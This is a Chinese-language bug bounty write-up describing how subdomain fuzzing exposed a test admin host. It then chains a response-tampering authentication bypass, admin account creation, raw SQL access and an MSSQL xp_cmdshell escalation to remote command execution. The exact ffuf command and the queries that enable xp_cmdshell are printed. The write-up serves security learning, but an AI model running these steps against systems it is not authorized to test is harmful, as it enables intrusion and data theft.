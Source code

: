 # 价值35000美元的子域名模糊测试

该文章的作者是**Abdullah Nawaf**，全职漏洞赏金猎人，在BugCrowd中排名前50，P1漏洞排名第11。

本文介绍了**如何使用子域名模糊测试和链接多个漏洞来获取完整的RCE（远程代码执行）漏洞。**

## 描述

2022年的时候，作者在Bugcrowd上报告了一个私人程序带的Auth Bypass导致SQLI&RCE，该漏洞在报告后一天就被修复。

2024年3月，作者决定重新测试他们的旧bug。他们的测试目标为：`admin.Target.com` 通过使用下面的命令进行子域模糊测试：

```bash
ffuf -w /subdomain_megalist.txt -u 'https://adminFUZZ.Target.com' -c  -t 350 -mc all  -fs 0
```

> 模糊测试字典：`subdomain_megalist.txt` 放在最后附录部分。

使用上述命令，作者发现了子域名：`admintest.Target.com`

![](https://github.com/owl234/Awesome-SRC-experience/blob/main/Awesome_SRC_experience/img/1_gJy6VL-cev_f7AJYhexNUA.jpg)

> 在图片中可以看到很多错误信息，但这没关系，因为在进行子域模糊测试时，错误信息表示这些子域名不可用。

`admintest.Target.com`很可能存在漏洞，因为它与原始子域`admin.Target.com`拥有相同的后端。 下面将逐个讨论作者发现的漏洞。

## 认证绕过（Auth Bypass）和浏览器自动完成（BAC）

`https://admintest.Target.com`被重定向到`https://admintest.Target.come/admin/login.aspx`

在阅读js文件时，我们发现了一个端点'https://admintest.Target.com/admin/main.aspx'。 直接在浏览器会再次重定向到登录页面，但在Burp中我们发现了一些有趣的东西。

![](https://github.com/owl234/Awesome-SRC-experience/blob/main/Awesome_SRC_experience/img/1_k8jW7uXrw6p-_-iphOWFYw.jpg)

重定向响应的`Content-Length` 大小异常的大（怀疑前端验证造成）。通过删除三个访问头，最终获得完全访问权限，至此打开访问面板。

![](https://github.com/owl234/Awesome-SRC-experience/blob/main/Awesome_SRC_experience/img/1_DOtsrYi_CHbtQMs_KB4KpQ.jpg)

使用Burp拦截响应，并修改以下访问头。

```html
将 302 Moved Temporarily 改为 200 OK
删除 Location: /admin/Login.aspx?logout=y
删除 html redirect code 
```

至此，作者成功实现了身份验证绕过，获得平台全部功能。随后通过深度挖掘，发现名为`adduser.aspx`的文件，该文件使用与`main.aspx`相同的技巧将访问重定向到登录页面。

利用上述相同的绕过方法，成功访问`adduser.aspx`页面并创建了一个管理员账户。 此外，还发现了一个无需身份验证即可显示**管理员密码和用户名**的地方。

![](https://github.com/owl234/Awesome-SRC-experience/blob/main/Awesome_SRC_experience/img/1_s1JhYLJSoteMFI30xYkZ_Q.jpg)

## SQL注入攻击

添加管理员账户后，就可以直接登录系统，这比使用认证绕过更方便。 随后，作者发现一个名为`SQLQuery.aspx`的端点，从名称就可以猜出它的功能。 首先，我尝试了以下的查询：

```sql
Select * from users;
```
结果，直接能看到所有用户的信息，包括密码、电子邮件和用户名。

## 远程代码执行（RCE）漏洞

由于数据库是`mssql`，作者尝试使用`xp_cmdshell`将其升级为RCE。

> `xp_cmdshell` 存储过程是 SQL Server 中的一个强大功能，可用于在 SQL 语句中执行系统命令。它允许数据库管理员或具有适当权限的用户直接从 SQL Server 访问操作系统功能。默认禁用，攻击者可以利用它来窃取敏感数据、安装恶意软件甚至完全控制系统。

简单来说，`xp_cmdshell` 允许用户通过`mssql`执行系统命令。 默认情况下，它是禁用的，但是可以轻松启用它。例如使用`sqlmap`工具的`--os-shell`参数。 不过这里能够直接向数据库发送查询，就无需使用`sqlmap`。 要让`xp_cmdshell`正常工作，我们首先需要使用以下查询启用它：

```sql
SP_CONFIGURE "show advanced options", 1
RECONFIGURE
SP_CONFIGURE "xp_cmdshell", 1
RECONFIGURE
```

然后，执行`xp_cmdshell 'whoami'` 拿下RCE漏洞。

![](https://github.com/owl234/Awesome-SRC-experience/blob/main/Awesome_SRC_experience/img/2.jpg)

作者将发现的多个问题整理成一份报告，并将另一个端点中发现的另一个SQL注入漏洞单独报告，最终获得了35000美元的赏金。

## 经验教训和总结

1. **始终检查Burp中的重定向响应。**

作者发现了许多类似的身份验证绕过漏洞，作者第一次获得赏金是在2020年，利用的是相同的技巧：`/admin/admin.php`重定向到`login.php`。但是，当使用Burp查看响应时，发现`admin.php`页面可以正常工作，只是前端重定向。

2. **如果你在子域名中发现并修复了漏洞请尝试使用子域名模糊测试。**

**子域名模糊测试参考格式：**

```context
admin-FUZZ.target.com E.G: admin-stg.target.com
FUZZ-admin.target.com E.G: cert-admin.target.com
adminFUZZ.target.com  E.G: admintest.target.com
FUZZadmin.target.com  E.G  testadmin.target.com
admin.FUZZ.target.com E.G: admin.dev.target.com
```

**模糊测试命令：**

```bash
ffuf -w /subdomain_megalist.txt -u 'https://adminFUZZ.Target.com' -c  -t 350 -mc all  -fs 0

-t 线程数 , 根据你的带宽设置，尽量不要设置太高，否则你可能会错过很多正常的子域名 , 
,作者使用vps将线程设置为 350 。

-mc all 代表匹配所有的响应码 比如 200,302,403 这一点非常重要。
```

3. **在提交报告之前尝试升级漏洞。**

4. **质量大于数量**

> 当你发现多个漏洞或将多个漏洞组合在一起时，请尝试将其作为一份报告提交，你将获得更高的赏金！

## 附录：

### 子域名爆破字典：

[subdomain_megalist.txt](https://github.com/netsecurity-as/subfuz/blob/master/subdomain_megalist.txt)

更多更大的字典：

[SecLists/Discovery/DNS ](https://github.com/danielmiessler/SecLists/tree/master/Discovery/DNS)

## 使用的工具：

模糊测试神器：[ffuf](https://github.com/ffuf/ffuf)

Web测试神器：[Burp suite](https://portswigger.net/burp)

SQL注入检测和利用神器：[sqlmap](https://github.com/sqlmapproject/sqlmap)
